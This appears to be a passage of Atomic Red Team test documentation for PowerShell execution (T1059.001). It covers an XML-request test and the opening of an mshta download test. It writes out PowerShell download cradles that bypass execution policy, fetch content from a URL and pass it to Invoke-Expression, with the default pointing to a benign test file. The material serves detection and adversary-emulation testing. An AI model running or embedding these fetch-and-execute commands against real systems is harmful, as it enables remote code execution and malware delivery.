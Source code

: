 
```cmd
powershell.exe -exec bypass -noprofile "$comMsXml=New-Object -ComObject MsXml2.ServerXmlHttp;$comMsXml.Open('GET','#{url}',$False);$comMsXml.Send();IEX $comMsXml.ResponseText"
```






<br/>
<br/>

## Atomic Test #8 - Powershell XML requests
Powershell xml download request. Upon execution, "Download Cradle test success!" will be dispalyed.

Provided by https://github.com/mgreen27/mgreen27.github.io

**Supported Platforms:** Windows


**auto_generated_guid:** 4396927f-e503-427b-b023-31049b9b09a6





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | url of payload to execute | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/test.xml|


#### Attack Commands: Run with `command_prompt`! 


```cmd
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -exec bypass -noprofile "$Xml = (New-Object System.Xml.XmlDocument);$Xml.Load('#{url}');$Xml.command.a.execute | IEX"
```






<br/>
<br/>

## Atomic Test #9 - Powershell invoke mshta.exe download
Powershell invoke mshta to download payload. Upon execution, a new PowerShell window will be opened which will display "Download Cradle test success!".

Provided by https://github.com/mgreen27/mgreen27.github.io

**Supported Platforms:** Windows


**auto_generated_guid:** 8a2ad40b-12c7-4b25-8521-2737b0a415af



